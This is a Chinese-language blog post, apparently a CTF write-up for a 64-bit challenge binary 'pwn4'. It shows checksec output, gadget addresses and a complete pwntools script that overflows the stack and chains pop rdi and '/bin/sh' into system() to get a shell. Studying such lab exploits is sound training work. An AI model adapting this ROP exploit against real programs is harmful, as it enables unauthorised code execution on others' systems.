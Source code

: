 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      pwn4 writeup				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-21.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```




### 题目：pwn4

### 考点：

- 64位ROP攻击
- 栈溢出攻击

### 解题思路：

- 首先使用`checksec`工具查看`pwn4`状态![checksec](/img/posts/2023-10-23-pwn4/images/checksec.png)

- 由图可知`pwn4`为64位程序，且开启了DEP机制，因此可以使用ROP攻击，只不过由于64位程序函数前6个参数会存储在寄存器rdi，rsi，rdx，rcx，r8，r9中，因此需要使用`ROPgadget`工具寻找可用片段将参数传入寄存器rdi中。

- 使用`ida64`工具打开，获取到重要地址`stack_flow`, `system`, `"/bin/sh"`的地址，使用`ROPgadget`工具获取到`pop rdi, ret`片段的地址：


| 函数或字符串 | 地址      |
| ------------ | --------- |
| stack_flow   | 0x040061B |
| system       | 0x0400480 |
| "/bin/sh"    | 0x04006FF |
| pop rdi, ret | 0x0400693 |

- 使用`pwndbg`来动态调试，在`stack_flow`函数下断点，可见传入`read`函数的参数为`0x20`个字节，要覆盖到寄存器`rbp`，需要`0x20+8`个输入；

- 构造python脚本，需要构造payload向pwn4传入(0x20+8)字符覆盖到函数返回地址，然后加入system函数地址，并传入参数。

  ```python
  from pwn import *
  
  context(arch="amd64", log_level="debug")
  p = process('./pwn4')
  
  stack_flow = 0x40061B
  system = 0x400480
  bin_sh = 0x4006FF
  pop_rdi = 0x400693
  ret = 0x4005F3
  
  b = '04005F2'
  
  p.recvuntil("Give me your payload")
  payload = flat(b'b'*(0x20 + 8), ret, pop_rdi, bin_sh, system)
  gdb.attach(p, f'b *0x{b}')
  p.send(payload)
  p.interactive()
  ```

  注：如果不加`ret`，`pop rdi`栈地址为`0x47e4b8`末尾不为0，因此无法正确执行，所以需要加入ret，使后面命令对齐。

![stack-1](/img/posts/2023-10-23-pwn4/images/stack-1.png)

​		加入`ret`后栈的情况。

![stack](/img/posts/2023-10-23-pwn4/images/stack.png)

- 结果成功利用栈溢出获取到shell：

![result](/img/posts/2023-10-23-pwn4/images/result.png)

